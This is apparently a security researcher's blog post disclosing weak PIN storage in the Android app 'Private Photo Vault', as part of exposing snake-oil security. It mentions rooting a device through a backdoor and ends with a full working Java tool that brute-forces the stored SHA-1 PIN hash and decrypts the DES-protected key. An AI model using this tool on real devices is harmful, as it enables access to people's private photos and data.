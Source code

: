 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

><?xml version='1.0' encoding='utf-8' standalone='yes' ?>
><map>
>...
>    <string name="pin">7110eda4d09e062aa5e4a390b0a572ac0d2c0220</string>
>…
><string name=“enc_keys_pin">Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==</string>
>…
></map>

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1224|shasum
>4fd505f8aeed956f068c4ce57bfc30a6131b7c79 

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

>public class Main {
>
>    public static void main(String[] args) {
>     
>     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
>        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
>        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
>
>        System.out.println("Cracking pin...");
>        String PIN = crackPIN(hashedPIN);
>        System.out.println("PIN is " + PIN);
>
>        System.out.println("Decrypting Key...");
>        String KEY = decryptKey(encKeyPin,PIN);
>        System.out.println("KEY is " + KEY);
>    }
>    
>    private static String decryptKey (String KEY, String PIN) {
>
>        while (PIN.length() < 8) {
>            PIN = PIN + 0;
>        }
>
>        SecretKey secKey = null;
>        try {
>            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
>            byte[] bKey = Base64.decode(KEY);
>            Cipher cipher = Cipher.getInstance("DES");
>            cipher.init(2, (secKey));
>            return new String(cipher.doFinal(bKey));
>        } catch (InvalidKeySpecException e) {
>            e.printStackTrace();
>        } catch (NoSuchAlgorithmException e) {
>            e.printStackTrace();
>        } catch (InvalidKeyException e) {
>            e.printStackTrace();
>        } catch (UnsupportedEncodingException e) {
>            e.printStackTrace();
>        } catch (BadPaddingException e) {
>            e.printStackTrace();
>        } catch (IllegalBlockSizeException e) {
>            e.printStackTrace();
>        } catch (NoSuchPaddingException e) {
>            e.printStackTrace();
>        }
>        return null;
>    }
>
>    private static String crackPIN(String hashedPIN) {
>        for (int i = 0; i <= 9999;i++) {
>            String testPin = Integer.toString(i);
>            while (testPin.length() < 4) {
>                testPin = "0" + testPin;
>            }
>            try {
>                MessageDigest md = MessageDigest.getInstance("SHA-1");
>                md.reset();
>                md.update(testPin.getBytes());
>                if (hashedPIN.equals(bytesToHex(md.digest()))) {
>                    return testPin;
>
>                }
>            } catch (NoSuchAlgorithmException e) {
>                e.printStackTrace();
>            }
>        }
>        return null;
>    }
>
>    private static String bytesToHex(byte[] bytes) {
>        char[] hexArray = "0123456789abcdef".toCharArray();
>        char[] hexChars = new char[bytes.length * 2];
>        for ( int j = 0; j < bytes.length; j++ ) {
>            int v = bytes[j] & 0xFF;
>            hexChars[j * 2] = hexArray[v >>> 4];
>            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
>        }
>        return new String(hexChars);
>    }
>}
